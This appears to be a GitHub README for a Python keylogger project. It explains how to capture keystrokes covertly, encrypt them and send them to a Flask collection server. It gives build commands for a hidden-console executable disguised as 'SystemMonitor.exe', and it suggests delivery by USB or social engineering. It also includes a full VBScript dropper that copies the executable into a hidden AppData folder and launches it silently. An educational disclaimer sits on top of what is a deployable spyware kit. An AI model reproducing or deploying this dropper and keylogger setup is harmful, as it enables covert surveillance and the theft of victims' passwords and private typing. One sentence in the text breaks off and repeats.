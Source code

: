 # Python-based Stealth Keylogger with Flask Exfiltration

> **Educational Use Only!** This keylogger project was built strictly for academic and cybersecurity awareness purposes. Unauthorized deployment is illegal and unethical.

---

## Project Overview

This Python-based keylogger captures keystrokes from a target system, encrypts them, and exfiltrates the data to a local Flask server. It is stealthily compiled into an `.exe` file and can be delivered via USB or remotely through links or social engineering. This keylogger attacks system that has Python installed in them.
Systems without Python, won't be able to run this keylogger properly.

### Features

*  Stealth keylogger (runs silently with no console window)
*  Encrypted keystroke logging with timestamp
*  Real-time exfiltration to a local Flask server
*  Log viewing via `/view` endpoint (with decryption)
*  Executable delivery (via PyInstaller)

---

## Project Structure

```
.
├── main.py              # Keylogger logic
├── server.py            # Flask server to receive logs
├── encryption.py        # Encryption/decryption logic
├── exfil.py             # Exfiltration helper
├── Logs/                # Received keystroke logs
├── dist/
│   └── SystemMonitor.exe   # Final compiled EXE
├── launch.vbs           # Dropper script
```

---

## Execution Steps

### 1. Install Dependencies

```bash
pip install flask pynput cryptography
```

### 2. Run Flask Server

```bash
python server.py
```
Basic server using `flask` module. This server is set up to capture each keystroke with timestamp. The use of '/view' and '/capture' is explained in description of `server.py` attachment. We have imported functions `encrypt()` and `decrypt()`, so that we can encrypt
### 3. Run Keylogger

```bash
python main.py
``` 
---

## Building the EXE (Stealth Mode)

```bash
pyinstaller --onefile --noconsole main.py
```
Make sure you have started your virtual environment before executing this command, otherwise you may face issues while running .exe file.
Output will be in `dist/SystemMonitor.exe`

---


## Dropper Script (launch.vbs)

```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
Set shell = CreateObject("WScript.Shell")

src = fso.GetAbsolutePathName("SystemMonitor.exe")
destFolder = shell.ExpandEnvironmentStrings("%APPDATA%\WinLogs")
dest = destFolder & "\SystemMonitor.exe"

If Not fso.FolderExists(destFolder) Then
    fso.CreateFolder(destFolder)
End If
If Not fso.FileExists(dest) Then
    fso.CopyFile src, dest
    shell.Run "cmd /c attrib +h '" & dest & "'", 0, True
End If
shell.Run """" & dest & """", 0, False
```

---
## Scripts used

### main.py
The main logic for keylogger. It uses pynput library, which uses `keyboard.Listener()` that 'listens' or captures keystrokes. The pynput library is fully used for keyboard and mouse monitoring. What each function in main.py does:-
1. ** process_key(key): ** Processes a single keystroke, formats it for logging, and sends it to an external function (send_keystroke()) with a timestamp. It also handles special cases like the ESC key to stop the keylogger.
2. ** on_press(key): **
     - Calls `process_key(key)` to handle the key.
     - If process_key returns False (i.e., ESC was pressed), the function returns False, which stops the keyboard listener.
     - Otherwise, it implicitly returns None, allowing the listener to continue.
3. ** on_release(key): **
     - Input: Takes a key object from the pynput.keyboard listener.
     - Logic: Does nothing (pass) but can be extended to handle key release events if needed (e.g., logging key release times).
     - Return Value: Implicitly returns None.
The script terminates when `ESC` is pressed on keyboard.
---

### encryption.py

- Uses `cryptography` library's `fernet` class that generates a key and stores it in a file. 
- The library also helps in encryption and decryption. The key is used to and encrypt and decrypt keystroke data.
- The `load_key()` uses the existing key from key file for `encrypt(message)` and `decrypt(token)` operations. --- The `encrypt(message)` takes a string as an input and encrypts it into Fernet token(ciphertext).
- The `decrypt(token)` takes a Fernet token as input and decrypts it into original plaintext, using the key.
note: without the key, encryption and decryption won't take place.

---

### exfil.py

- Exfiltrates data from keylogger and sends it to local flask server
- It uses `requests` library to make HTTP POST requests to flask server
- It uses `json` library to store the keylogger data in JSON format before sending it as POST request.
- The `send_keystroke(raw,timestamp,url)` takes raw input(keystroke) and its time, along with URL which is your local device address and port 5000(default for flask), and sends info to the server endpoint `/capture`
- The function takes data as a dictionary that matches what your server expects(raw, timestamp). It will be converted to JSON and sent as the request body.

---

### server.py

- Basic server using `flask` module. This server is set up to capture each keystroke with timestamp. 
- The use of '/view' and '/capture' is explained in description of `server.py` attachment.
- We have imported functions `encrypt()` and `decrypt()`, so that we can encrypt the logs that will be stored in `keystrokes.txt` and view decrypted data at `/view` route.
- The server starts at port 5000 and host='0.0.0.0' allows access from any device on the same network (useful if the keylogger is on a different machine).
- The `/upload` route accepts full log files from the client. You could upload `keystrokes.txt` from any device using /upload route.

## Important
Press `ESC` button to terminate the keylogger program, if unable to do it so from task manager, and vice versa.

---

## Disclaimer

This project was developed **only for educational demonstrations** as a part of my internship. Misuse may be punishable under cybercrime laws.

> Be smart. Be ethical. Use your skills to protect, not harm.

---

## Credits

* Python `pynput` for keystroke monitoring
* Flask for exfil server
* Cryptography for Fernet encryption
  

---

**Author:** \Nihar Sameer Nilatkar
**GitHub:** \github.com/NiharNilatkar
**LinkedIn:** \https://www.linkedin.com/in/nihar-nilatkar-6a0135332/

